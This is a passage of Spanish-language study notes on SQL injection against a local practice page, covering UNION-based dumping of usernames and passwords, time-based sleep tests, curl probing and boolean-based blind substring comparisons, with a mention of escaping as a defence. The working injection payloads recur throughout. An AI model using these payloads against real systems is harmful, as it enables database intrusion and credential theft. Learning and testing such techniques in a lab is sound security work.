 Nos muestran ahora las columnas que existen dentro de la tabla que preguntamos: 
![[Pasted image 20240217234613.png]]
Ahora podemos por los datos que contiene esta tabla con la siguiente query: 
```
http://localhost/searchUsers.php?id=4' union select group_concat(username,0x3a,password) from users-- -
el 0x3a es el : en hexadecimal
```
![[Pasted image 20240217235040.png]]
Ahora una de las formas para saber si la pagina es vulnerable a una inyección sql, esta es hacer una query con tiempo de espera, de la siguiente forma: 
```
http://localhost/searchUsers.php?id=1' and sleep(5)-- -
```
Con un usuario valido, se le pone un and sleep(5)-- -, para que nos tome como valida la query y si nos espera la cantidad de segundos que le indicamos en el sleep, esto quiere decir que si es vulnerable a inyecciones sql: 
![[Pasted image 20240218003628.png]]
A modo de traza podemos poner un echo que nos muestre el id que colocamos dentro de la url:
![[Pasted image 20240218011641.png]]
![[Pasted image 20240218012351.png]]
ese es el script en php que nos muestra el valor del id
ahora tambien se pueden hacer otras sanitizaciones: 
![[Pasted image 20240218012613.png]]
cambia el id con la función mysqli_real_escape_string(), lo que hace esto es: 
![[Pasted image 20240218012657.png]]
nos escapa la comilla.
Algo que tenemos que tener en cuenta es que no siempre es necesario que después del número, va a depender de como este formulada la query por detrás, pero como no podemos verla, hay que intentar haciendo las querys de distintas formas. 
Bueno también dentro de las sql injections existen las inyecciones a ciegas, son aquellas en las que no se muestran ningun tipo de respuesta, por ejemplo: 
![[Pasted image 20240218130103.png]]
en este caso si no encuentra un nombre de usuario la pagina mandará un error 404.
![[Pasted image 20240218130120.png]]
en este caso tendremos que ir haciendo todo a través de `curl -s -X GET "http://localhost/searchUsers.php?id=2" -I` el -I es para ver 
### **Inyección SQL basada en booleanos**:
cuando estamos a ciegas por lo general lo que se hace es poder hacer comparaciones dentro de la base de datos, estas se hacen con substrings para poder ir comparando letra por letra hasta poder conseguir encontrar una comparacion que nos entregue como respuesta un true, teniendo la misma base de datos que antes podemos ir haciendo la comparacion de la siguiente forma: 
```
create table users (id integer(32), firstname varchar(32), password varchar(32));
insert into users (id, firstname, password) values (1, 'admin', 'admin123!$p@$$');
insert into users (id, firstname, password) values (2, 'gonza', 'gonzalammer123');
insert into users (id, firstname, password) values (3, 'tomas', 'tomaselhacker');
```
se hace una consulta para ir haciendo comparaciones letra por letra de la siguiente manera: 
```
select(select substring(username,1,1) from users where id = 1)='a';

en la parte del substring(dato,posicion del dato a consultar, cantidad de datos)
```
esto nos debería devolver una respuesta numérica, 1 para decir true y 0 en el caso de que sea false. 
En algunos casos estas querys están capadas es decir que no les gusta la comparación entre strings y pasa de ser 'a'='a', entonces podríamos cambiar esto a números decimales como el siguiente ejemplo: 